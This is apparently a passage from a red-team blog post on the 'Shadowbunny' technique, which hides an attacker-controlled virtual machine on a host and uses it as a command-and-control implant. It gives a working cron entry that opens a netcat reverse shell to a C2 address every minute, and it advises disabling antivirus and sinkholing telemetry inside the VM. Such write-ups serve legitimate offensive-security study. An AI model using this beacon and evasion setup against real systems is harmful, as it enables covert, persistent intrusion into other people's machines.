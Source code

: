 * `-k` allows for multiple connections, so that netcat doesn’t entirely terminate if we exit the shell
* `-l` configures netcat as a server
* `-v` is the verbose mode, so netcat displays some more information
* `-p` specifies the port to listen on, in this case we just use port 443

That is it for the demo, the C2 is up and running. The following image shows this simple setup:

![Shadowbunny Command Center](/blog/images/2020/shadowbunny-c2.png)
 
A host firewall might be blocking connections, in that case the firewall needs adjustments. During red team operation an encrypted channel should be used, possibly using HTTPS traffic on 443 to blend in. 

### Creating the Shadowbunny virtual disk image

The second pre-requisite is the Shadowbunny disk image.

**The red team can customize the VM to their hearts content, it is fully controlled by the attacker.**

The VM will probably want to automatically connect to the C2 periodically to check for commands. Possibly enable disk encryption, uninstall any unneeded software, establish direct connections to host via a shared folder or clipboard access, disabling any AV inside, sink holing telemetry, maybe USB access to have access to smart cards, or security keys and more.

The creation can be a lengthy and involved step depending on the red team operation. For certain scenarios the disk size has to be small to limit the amount of time it takes to perform lateral movement.  

> Interesting fact: The recent “Ragnar Lock Ransomware” used an old version of Windows XP – which keeps the size of the virtual machine quite small.


To get started Ubuntu Server VM is a good option. For the more advanced cases there are light-weight Linux distributions to choose from as well. In the end, the outcome will be a virtual machine disk image file (or vdi, vhd, vhdx).



**Using flock to regularly connect to the C2:**

If the VM runs Linux the `flock` command can be used to awake zombies regularly.

* Edit crontab on the attack VM (I like nano):

```
sudo crontab -e
```

* Afterward, updating the cron file:

```
* * * * * /usr/bin/flock -n /tmp/zombie.lock nc 10.10.10.10 443 -e /bin/bash
```

**Explanation:** 
The `flock` command is an elegant solution to ensure the command is only running once. The `-n` option means that if the lock file at `/tmp/zombie.lock` exists, then the process will stop. If it is not yet created, then the `netcat` command will be run and connect to the server. 
